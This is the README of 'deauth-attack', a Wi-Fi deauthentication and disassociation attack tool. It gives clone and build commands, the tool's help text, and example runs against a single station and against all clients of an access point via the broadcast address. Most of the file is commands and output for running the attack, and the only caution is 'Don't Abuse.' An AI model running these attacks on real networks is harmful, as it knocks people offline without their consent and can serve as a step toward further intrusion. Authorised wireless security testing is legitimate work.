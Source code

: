 # Deauth/Disas Attack

2019/11/12(verifsec@gmail.com)

## Installation

```
# git clone https://github.com/verifsec/deauth-attack.git
# cd ./deauth-attack
# make
```

## Usage

```
# deauth-attack -h
Deauth/Disas Attack 1.02a by <verifsec@gmail.com>

usage: deauth-attack [-h] -i IFACE -b BSSID [-t TARGET] -m MODE

optional arguments:
  -h, --help            show this help message and exit
  -i IFACE, --iface IFACE
                        802.11 iface(monitor)
  -b BSSID, --bssid BSSID
                        APUT MAC Address
  -t TARGET, --target TARGET
                        STAUT MAC Address
  -m MODE, --mode MODE  "disas" or "deauth"
```

## Example

### Safety

```
# deauth-attack -i wlan0mon -b 00:23:69:XX:XX:XX -m disas -t 34:97:f6:YY:YY:YY
Deauth/Disas Attack 1.02a by <verifsec@gmail.com>

[+] Starting now ...
[|] Sending the disas flame from 00:23:69:XX:XX:XX to 34:97:f6:YY:YY:YY
[+] Finish. Hopefully it's nothing.
```

### Unsafety

```
# deauth-attack -i wlan0mon -b 00:23:69:1D:60:22 -m disas
Deauth/Disas Attack 1.02a by <verifsec@gmail.com>

[+] Starting now ...
[|] Sending the disas flame from 00:23:69:1D:60:22 to ff:ff:ff:ff:ff:ff
[+] Finish. Hopefully it's nothing.
```

## License
This software includes the work that is distributed in the Apache License 2.0.

## Remark
Don't Abuse.
